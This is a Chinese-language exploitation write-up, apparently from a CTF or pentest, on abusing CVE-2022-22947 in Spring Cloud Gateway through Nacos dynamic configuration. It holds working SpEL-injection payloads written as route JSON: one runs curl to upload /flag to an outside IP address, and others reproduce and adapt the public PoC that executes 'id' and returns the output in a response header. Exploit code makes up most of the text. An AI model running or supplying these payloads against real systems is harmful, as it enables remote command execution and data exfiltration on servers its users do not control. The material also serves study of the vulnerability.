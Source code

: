 Spring Cloud Gateway曾出现CVE-2022-22947漏洞，该漏洞允许攻击者通过动态配置路由，执行SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。但实际情况可能有很多Spring Cloud Gateway存在漏洞，但未开放Actuator API，所以导致无法利用。但如果在资产收集时发现目标存在nacos，并且可用弱口令或者未授权漏洞创建用户登录进去的话，我们可以采用Nacos的动态配置特性结合Spring Cloud Gateway的RCE漏洞进行利用。
参考文章：<https://xz.aliyun.com/t/11493?time__1311=Cq0xRDnD070Q%3DGNPeeuAxfE1x9AB%3DDg7WoD>

利用nacos漏洞进入后台后，发现gateway配置文档，修改发布，进行spel注入命令执行。下面是json格式。
这里是给了个的jar，反编译查看到了基础的配置，根据配置添加nacos中配置文档，并发布。
![](.topwrite/assets/image_1735374395624.png)
![](.topwrite/assets/image_1735375328478.png)
```
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "whocansee",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'curl','http://47.113.202.32:23233','-T','/flag'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```
predicates是路由匹配规则，uri是转发的地址，这里是backendservice服务名

此时访问/echo/11触发，查看响应头有命令回显结果。





^
^
## **CVE-2022-22947漏洞回顾**

该漏洞在网上公开POC的利用方式是通过`/actuator/gateway/routes`这个节点进行动态添加路由的，当项目配置文件中配置了以下两行配置时（YAML格式），便会开启该接口：

```
management.endpoint.gateway.enabled: true
management.endpoints.web.exposure.include: gateway
```

其中发送的添加路由的数据包中的数据段如下：

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

我们可以先理解一下这段POC的含义，其中id字段代表的是路由的ID标识，而filters则是Spring Cloud Gateway中路由配置的过滤器，这里指定了过滤器`AddResponseHeader`，含义为对匹配到的请求的响应包中添加一个自定义的Header，其中名称为 Result，值为该漏洞利用的SpEL表达式，执行了命令`id`，也就是说当一个请求匹配到该路由时，返回包中应该会存在一个Header返回了我们定义的键值，利用成功的话会得到：`result: uid=0(root) gid=0（省略...）`

但POC中并未定义路由的匹配规则，因为开启actuator/gateway的话只需要刷新一下路由然后直接查看路由配置就可以得到命令执行的回显了。为了验证，我修改了一下POC，将其添加一条路由规则如下：

```
{
    "id": "aaa",
    "order": 0,
    "predicates": [
      {
        "args": {
          "_genkey_0": "/test/**"
        },
        "name": "Path"
      }
    ],"filters": [
{
    "name": "AddResponseHeader",
    "args": {
"name":"result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream())).replaceAll(\"\n\",\"\").replaceAll(\"\r\",\"\")}"}
  }],
    "uri": "http://example.com"
  }
```

发包添加成功：\
![](.topwrite/assets/image_1735375141726.png)

这条路由的含义就是增加了`predicates`来匹配请求的访问路径，当请求访问的路径匹配到了`/test/**`时，则触发该路由，然后再看到filters，跟之前的POC是一样的，最后再注意到`uri`参数，它的作用是当路由匹配到`/test/**`时，将其转发到`http://example.com`上，但注意这是个公网地址，在真实环境利用时应考虑到如果服务器不出网则可能造成路由转发失败。所以当我们访问了 [http://localhost:8080/test/时，路由会帮我们转发到。

接下来刷新一下路由，然后尝试访问一下/test路径看下效果：\
![](.topwrite/assets/image_1735375124789.png)

成功在响应包的头部增加了result字段，且值为我们希望的命令执行的结果。


